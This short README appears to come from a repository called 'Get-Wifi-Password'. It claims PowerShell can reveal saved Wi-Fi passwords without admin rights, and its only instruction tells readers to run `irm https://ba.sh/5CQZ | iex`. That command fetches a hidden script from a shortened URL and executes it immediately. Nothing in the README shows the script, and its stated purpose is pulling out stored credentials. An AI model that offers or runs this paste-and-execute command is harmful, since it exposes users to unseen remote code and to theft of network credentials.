 # Get-Wifi-Password
Get Wi-Fi password via powershell, without admin rights

# How use it?
- Press Win + R and type powershell or just open it
- Type `irm https://ba.sh/5CQZ | iex`
- Profit!


## License

[MIT](https://choosealicense.com/licenses/mit/)


